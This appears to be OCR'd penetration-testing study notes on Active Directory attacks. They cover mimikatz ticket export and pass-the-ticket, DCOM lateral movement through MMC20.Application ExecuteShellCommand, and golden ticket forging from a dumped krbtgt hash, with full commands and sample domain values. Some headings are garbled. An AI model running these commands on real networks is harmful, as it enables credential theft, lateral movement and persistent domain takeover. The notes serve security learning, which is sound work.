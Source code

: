 privilege::debug
sekurlsa::tickets /export

dir *.kirbi
in the directory of mimikatz, filtering for tickets

kerberos::ptt `<ticket>`
example:
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi


### DCOM

Distributed Component Object Model
system for creating software that interact with eachother

COM: Component Object Model: Microsoft

COM and ### DCOM are old tech, ### DCOM RPC 135 and need local admin

lateral movement technique is based on Microsoft Management Console COM application for scripted automation

MMC Application Class allows for Application Objects creation
it exposes ExecuteShellCommand method under Document.ActiveView

$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","`<target>`"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c `<command>`","7")


### Active Directory Persistence


### Golden Ticket

if we can get krbtgt password hash we can create custom TGT: golden ticket

we can create a TGT stating a normal user is a member of Domain Admins Group, if correctly encrypted dc will trust it

note that only domain admin group or member can do this

mimikatz
privilege::debug
lsadump::lsa /patch
grab the NTLM of the krbtgt account

move to normal user
kerberos::purge
to clear tickets

kerberos::golden /user:`<username>` /domain:`<domain>` /sid:`<domain sid>` /krbtgt:`<krbtgt user hash>` /ptt

example:
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
